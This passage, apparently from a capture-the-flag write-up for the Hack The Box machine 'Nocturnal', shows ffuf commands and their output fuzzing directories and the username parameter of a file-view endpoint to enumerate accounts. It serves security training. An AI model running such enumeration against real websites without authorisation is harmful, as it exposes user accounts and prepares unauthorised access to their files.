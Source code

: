 After uploading a pdf file we find that we can access it through the following link.
http://nocturnal.htb/view.php?username=w1ld&file=test.pdf

Fuzzing for directories we find `/backups` which returns `301` but upon visiting is `403 Forbidden`
```bash
ffuf -u "http://nocturnal.htb/FUZZ" -mc all --recursion -w `fzf-wordlists` -fs 162

        /____\  /____\           /____\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 162
________________________________________________

backups                 [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 294ms]
[INFO] Adding a new job to the queue: http://nocturnal.htb/backups/FUZZ
```

Noticing the parameters provided include usernames let's try and fuzz for usernames.

```bash
ffuf -u "http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf" -w `fzf-wordlists`

        / ___\  / ___\           / ___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
 :: Wordlist         : FUZZ: /opt/lists/seclists/Usernames/Names/names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

abahri                  [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 327ms]
abby                    [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 328ms]
abagail                 [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 328ms]
aarika                  [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 330ms]
abel                    [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 329ms]
aarushi                 [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 329ms]
aaron                   [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 329ms]
```